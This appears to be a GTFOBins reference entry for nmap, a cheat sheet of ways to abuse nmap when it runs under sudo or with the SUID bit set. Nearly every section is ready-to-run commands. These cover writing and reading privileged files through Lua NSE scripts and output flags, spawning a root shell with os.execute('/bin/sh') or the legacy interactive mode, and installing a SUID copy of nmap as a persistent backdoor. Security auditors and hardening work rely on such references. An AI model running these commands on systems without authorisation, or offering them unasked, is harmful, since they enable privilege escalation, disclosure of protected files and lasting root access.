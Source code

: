 # GTFOBin: nmap

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
TF=$(mktemp)
echo 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
nmap --script=$TF
```

The payload appears inside the regular nmap output.

```
LFILE=file_to_write
nmap -oG=$LFILE DATA
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

The file is actually parsed as a list of hosts/networks, lines are leaked through error messages.

```
nmap -iL file_to_read
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The payload appears inside the regular nmap output.

```
sudo install -m =xs $(which nmap) .

LFILE=file_to_write
./nmap -oG=$LFILE DATA
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Input echo is disabled.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

```
sudo nmap --interactive
nmap> !sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Input echo is disabled.

```
sudo install -m =xs $(which nmap) .

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
./nmap --script=$TF
```